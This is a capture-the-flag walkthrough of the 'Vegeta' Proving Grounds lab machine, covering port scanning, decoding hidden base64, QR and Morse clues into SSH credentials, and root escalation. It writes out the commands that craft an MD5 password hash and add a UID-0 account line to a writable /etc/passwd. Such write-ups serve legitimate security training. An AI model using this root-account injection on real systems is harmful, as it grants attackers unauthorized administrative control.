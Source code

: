 ```yaml
---
categories: [Proving Grounds Play]
tags: [Cryptography, Recon, passwd, PrivEsc]
image:
  path: /Vulnhub-Files/img/Vegeta/front.png
  alt: Vegeta Proving Grounds Play Machine 🔥
---
```



### Let’s find the IP Address first >>

![Arp Scan Results That will Tell the IP Address](/Vulnhub-Files/img/Vegeta/Untitled.png)

```bash
IP : 10.0.2.56
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Vegita]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 11:57 IST
Nmap scan report for 10.0.2.56
Host is up (0.00050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f3130673f08302e6daee3209ebd6bba (RSA)
|   256 7d8855a86f56c805a47382dcd8db4759 (ECDSA)
|_  256 ccdede4e84a891f51ad6d2a62e9e1ce0 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:98:50:DA (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%201.png)

Lets see the Directory Traversal files —>

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%202.png)

Lets got to this file →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%203.png)

Lets decode this base64 encoded in readable form →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%204.png)

Now lets see this data.png file and decode it further since it is qrcode so →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%205.png)

Now I got a string → `Password : topshellv` →

But on further enumeration I find this password as a rabbit hole so lets dig in further through directory traversal with rockyou.txt file →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%206.png)

Now I got a directory named as `/bulma/` →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%207.png)

Now I got a audio file so lets decode it with morse code decoder →

[https://morsecode.world/international/decoder/audio-decoder-adaptive.html](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%208.png)

From decoder I got the credentials →

```bash
U S E R : T R U N K S  
P A S S W O R D : U $ 3 R
```

Now lets dig into the ssh shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Vegeta]
└─$ ssh trunks@10.0.2.56
trunks@10.0.2.56s password: 
Linux Vegeta 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jun 28 21:16:00 2020 from 192.168.43.72
trunks@Vegeta:~$ whoami
trunks
trunks@Vegeta:~$
```

Now lets the file permissions →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%209.png)

Since this file can be modifed as trunks too so lets go and add a new user with root privileges →

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

```bash
trunks@Vegeta:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
trunks:x:1000:1000:trunks,,,:/home/trunks:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
trunks@Vegeta:~$ nano /etc/passwd
trunks@Vegeta:~$ su shiv
Password: 
root@Vegeta:/home/trunks# whoami
root
root@Vegeta:/home/trunks# cd ~
root@Vegeta:~# ls -al
total 32
drwx------  3 root root 4096 Jun 28  2020 .
drwxr-xr-x 18 root root 4096 Jun 28  2020 ..
-rw-------  1 root root  186 Jun 28  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Jun 28  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 1379 Jun 28  2020 root.txt
-rw-------  1 root root 1827 Jun 28  2020 .viminfo
root@Vegeta:~# cat root.txt

                               ,   ,'|
                             ,/|.-'   \.
                          .-'  '       |.
                    ,  .-'              |
                   /|,'                 |'
                  / '                    |  ,
                 /                       ,'/
              .  |          _              /
               \`' .-.    ,' `.           |
                \ /   \ /      \          /
                 \|    V        |        |  ,
                  (           ) /.--.   ''"/
                  "b.`. ,' _.ee'' 6)|   ,-'
                    \"= --""  )   ' /.-'
                     \ / `---"   ."|'
  V E G I I T A       \"..-    .'  |.
                       `-__..-','   |
                     _.) ' .-'/    /\.
               .--'/----..--------. _.-""-.
            .-')   \.   /     _..-'     _.-'--.
           / -'/      """""""""         ,'-.   . `.
          | ' /                        /    `   `. \
          |   |                        |         | |
           \ .'\                       |     \     |
          / '  | ,'               . -  \`.    |  / /
         / /   | |                      `/"--. -' /\
        | |     \ \                     /     \     |
 	 | \      | \                  .-|      |    |'

Hurray you got root

Share your screenshot in telegram : https://t.me/joinchat/MnPu-h3Jg4CrUSCXJpegNw

root@Vegeta:~#
```
